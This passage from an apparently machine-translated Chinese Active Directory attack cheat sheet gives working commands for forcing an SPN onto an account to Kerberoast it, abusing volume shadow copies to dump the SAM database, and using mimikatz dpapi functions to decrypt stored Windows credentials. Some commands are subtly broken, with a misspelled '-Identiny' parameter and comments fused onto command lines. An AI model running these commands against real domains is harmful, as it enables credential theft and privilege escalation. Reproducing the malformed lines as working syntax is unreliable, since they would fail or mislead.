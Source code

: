 *   广告模块:

```
#Check if current user has already an SPN setted
Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName

#Force set the SPN on the account:
Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
```

最后，使用之前的任何工具获取 hash 并进行 kerberoast 认证！

# 滥用卷影副本

如果您在一台机器上有本地管理员权限，请尝试列出卷影副本，这是一种简单的域升级方法。

```
#List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows

#List shadow copies using diskshadow
diskshadow list shadows all

#Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

1.  您可以转储备份的 SAM 数据库并收集凭据。
2.  查找 DPAPI 存储的凭证并解密它们。
3.  访问备份的敏感文件。

# 使用 Mimikatz 列出并解密存储的凭证

通常，加密的凭据存储在:

*   `%appdata%\Microsoft\Credentials`
*   `%localappdata%\Microsoft\Credentials`

```
#By using the cred function of mimikatz we can enumerate the cred object and get information about it:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"#From the previous command we are interested to the "guidMasterKey" parameter, that tells us which masterkey was used to encrypt the credential
#Lets enumerate the Master Key:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"#Now if we are on the context of the user (or system) that the credential belogs to, we can use the /rpc flag to pass the decryption of the masterkey to the domain controler:
dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc#We now have the masterkey in our local cache:
dpapi::cache#Finally we can decrypt the credential using the cached masterkey:
dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
```
